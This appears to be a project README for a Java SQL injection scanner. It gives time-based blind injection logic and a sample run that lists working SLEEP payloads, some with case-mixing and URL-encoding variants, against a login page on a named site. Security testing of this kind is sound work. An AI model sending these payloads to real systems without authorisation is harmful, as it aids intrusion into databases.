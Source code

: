 VulnerabilityDetector is a program for test web-application on sql-injection vulnerabilities;
Program has two implementation CLI & GUI.
Program used time-based blind sql-injection for test GET/POST/COOKIE parameters.
Program is multitreading.

Based logic of test suites:
timeStart = time.now();
param=val ' AND SLEEP(15) -- -
timeEnd = time.now();
if (timeEnd - timeStart > 15) {
	print("SQL injection detected");
}

GUI program store results in stdout

CLI example usage:

D:\fit.nsu\parallels\xwaf\xwaf\trunk\VulnerabilityDetecter\dist>java -jar VulnerabilityDetecterCLI.jar "http://zaic101.ru/daredevil/sql_inj/tester_login/login.php?login=a1&password=a2"

Found SLEEP vulnerability on parameter "login" by follow link:
http://zaic101.ru/daredevil/sql_inj/tester_login/login.php?login=a1%27%25%32%30%4F%52%25%32%30%53%4C%45%45%50%28%31%35%29%25%32%30%41%4E%44%25%32%30%27%31%27%3D%27%31&password=a2
Found SLEEP vulnerability on parameter "login" by follow link:
http://zaic101.ru/daredevil/sql_inj/tester_login/login.php?login=a1'%20or%20sLEep(15)%20anD%20'1'='1&password=a2
Found SLEEP vulnerability on parameter "password" by follow link:
http://zaic101.ru/daredevil/sql_inj/tester_login/login.php?login=a1&password=a2'%20OR%20SLEEP(15)%20AND%20'1'='1
Found SLEEP vulnerability on parameter "login" by follow link:
http://zaic101.ru/daredevil/sql_inj/tester_login/login.php?login=a1'%20OR%20SLEEP(15)%20AND%20'1'='1&password=a2
Found SLEEP vulnerability on parameter "password" by follow link:
http://zaic101.ru/daredevil/sql_inj/tester_login/login.php?login=a1&password=a2'%20or%20sLEep(15)%20anD%20'1'='1
Found SLEEP vulnerability on parameter "password" by follow link:
http://zaic101.ru/daredevil/sql_inj/tester_login/login.php?login=a1&password=a2%27%25%32%30%4F%52%25%32%30%53%4C%45%45%50%28%31%35%29%25%32%30%41%4E%44%25%32%30%27%31%27%3D%27%31